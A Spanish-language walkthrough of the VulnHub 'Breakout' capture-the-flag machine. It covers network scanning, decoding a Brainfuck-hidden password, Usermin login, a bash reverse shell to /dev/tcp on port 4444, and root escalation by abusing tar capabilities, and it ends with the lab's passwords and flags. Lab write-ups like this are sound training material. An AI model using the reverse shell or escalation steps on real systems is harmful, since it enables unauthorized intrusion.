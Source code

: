 ```yaml
---
title: "Breakout"
excerpt: "Writeup de Breakout."
header:
  teaser: ""
tags:
  - vulnhub
  - easy
  - writeup
categories:
  - vulnhub
---
```


https://www.vulnhub.com/series/empire,507/

```bash
sudo nmap -vvv -sS -sV -O 192.168.1.0/24
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/1.png){: .align-center}

Saldrá la máquina breakout

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/2.png){: .align-center}

Entrar al servidor web con la dirección `192.168.1.146`, saldrá la web por defecto de Apache

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/3.png){: .align-center}

Dar click derecho e inspeccionar elemento y saldrá un mensaje encriptado

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/4.png){: .align-center}

Usar el identificador de cifrado de la web decode.fr, dirá que es cifrado Brainfuck

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/5.png){: .align-center}

Usar el descifrador Brainfuck

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/6.png){: .align-center}

Tratar de intentar entrar al servidor web con otro de los puertos abiertos, en este caso el 20000

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/7.png){: .align-center}

Dirá que es un servidor bajo SSL por lo que recomienda acceder con https en lugar de http, cambiamos y saldrá la advertencia de sitio inseguro

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/8.png){: .align-center}

Pulsar en avanzado y en aceptar el riesgo y continuar

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/9.png){: .align-center}

Saldrá un login para Usermin

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/10.png){: .align-center}

Usar enum4linux para descubrir el usuario que se encuentra en el equipo

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/11.png){: .align-center}

Saldrá el usuario cyber

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/12.png){: .align-center}

Usar el usuario cyber y la contraseña descifrada anteriormente

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/13.png){: .align-center}

Cargará el siguiente panel

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/14.png){: .align-center}

En la parte inferior se encontrarán unos botones, uno de ellos permitirá abrir una shell

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/15.png){: .align-center}

Entrará al directorio personal de cyber y con dicho usuario

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/16.png){: .align-center}

Listar el contenido, mostrará un archivo llamado `user.txt`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/17.png){: .align-center}

Mostrará el flag del usuario

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/18.png){: .align-center}

Usar el comando `getcap` con el archivo tar

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/19.png){: .align-center}

Ir a `/var/backups` y mostrar el contenido

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/20.png){: .align-center}

Volver al home de cyber y usar el archivo tar para comprimir el archivo `.old_pass.bak`

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/21.png){: .align-center}

Descomprimir el archivo creado

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/22.png){: .align-center}

Se creará un directorio llamado var, dentro de él otro llamado backups y dentro de este estará el archivo `.old_pass.bak` que ahora se podrá leer

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/23.png){: .align-center}

Mostrará una contraseña para el usuario root

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/24.png){: .align-center}

Al tratar de usar el comando su no lo permitirá

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/25.png){: .align-center}

Hacer un reverse shell con el comando
```bash
bash –i  >& /dev/tcp/192.168.1.127/4444 0>&1
```

Y poner el puerto de escucha en 4444

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/26.png){: .align-center}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/27.png){: .align-center}

Se abrirá un shell inverso aunque aún con el usuario cyber

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/28.png){: .align-center}

Hacer de nuevo un cat al archivo para poder copiar la contraseña

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/29.png){: .align-center}

Cambiar de usuario con su, cambiará al usuario root aunque sin mostrar texto, de todos modos se pueden escribir comandos

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/30.png){: .align-center}

Ir al directorio de root y mostrar el contenido

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/31.png){: .align-center}

Mostrará el flag del usuario root

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/32.png){: .align-center}

## Usuarios y contraseñas

Cyber= .2uqPEfj3D<P'a-3
Root= Ts&4&YurgtRX(=~h

## Flags

Usuario:  3mp!r3{You_Manage_To_Break_To_My_Secure_Access}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/33.png){: .align-center}

Root: 3mp!r3{You_Manage_To_BreakOut_From_My_System_Congratulation}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/vulnhub/breakout/34.png){: .align-center}
